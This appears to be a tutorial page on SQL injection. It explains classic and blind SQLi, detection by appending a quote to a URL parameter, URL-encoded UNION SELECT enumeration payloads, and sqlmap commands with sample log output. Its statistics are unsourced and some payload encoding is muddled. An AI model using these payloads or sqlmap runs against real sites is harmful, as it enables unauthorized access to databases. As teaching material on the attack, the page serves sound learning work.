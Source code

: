 # SQL Injections (SQLi)

* A SQL query  search can be easily manipulated and assume that a SQL query search is a reliable command. This means  that SQL searches are capable of passing, unnoticed, by access control mechanisms. 
* Using methods of diverting standard authentication and by checking the authorization credentials, you can gain access to important information stored in a database. 

## The Simplest Example

A parameter passed for a name of a user:

```
SELECT * FROM users WHERE
name="$name";
```

In this case, the attacker just needs to introduce a true logical expression like ```1=1```:

```
SELECT * FROM users WHERE 1=1;
```
So that the **WHERE** clause is always executed, which means that it will return the values that match to all users.

Nowadays it is estimated that less than 5% of the websites have this vulnerability.

These types of flaws facilitate the occurrence of other attacks, such as XSS or buffer overflows.

## Blind SQL Injection

It's estimated that over 20% of the websites have this flow.

In traditional SQLi it is possible to reveal the information by the attacker writing a payload. In the blind SQLi, the attacker needs to ask the server if something is TRUE or FALSE. For example, you can ask for a user. If the user exists, it will load the website, so it's true.

Every time you see an URL, the **question mark** followed by some type of letter or word means that a value is being sent from a page to another.

In the example
```
http://www.website.com/info.php?id=10
```
the page *info.php* is receiving the data and will have some code like:
```
$id=$_post['id'];
```
and an associated SQL query:
```
QueryHere = "select * from information where code='$id'"
```
### Common ways of Exploitation

#### Checking for vulnerability
We can start to verifying whether the target is vulnerable by attaching a simple quote symbol ```'``` in the end of the URL:

```
http://www.website.com/info.php?id=10'
```

If the website returns the following error:

	You have an error in your SQL syntax...

It means that this website is vulnerable to SQL.

#### Find the structure of the database
To find the number of columns and tables in a database we can use [Python's SQLmap](http://sqlmap.org/).  

This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is ```--tables <DATABASE-NAME>```. 



